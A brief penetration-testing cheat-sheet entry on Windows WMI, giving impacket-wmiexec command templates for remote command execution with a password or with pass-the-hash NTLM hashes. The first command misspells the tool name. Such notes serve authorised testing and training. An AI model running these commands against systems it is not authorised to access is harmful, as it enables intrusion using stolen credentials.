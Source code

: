 # WMI

WMI is a framework for managing Windows systems, allowing remote administration, data collection, and remote command execution.





## Impacket-wmiexec



{% code title="With pass" %}
```bash
imapcket-wmiexec DOMAIN/USER:'PASSWORD'@IP
```
{% endcode %}

{% code title="With Pass-the-Hash" overflow="wrap" %}
```bash
impacket-wmiexec USER@IP -hashes LM:NT 
```
{% endcode %}

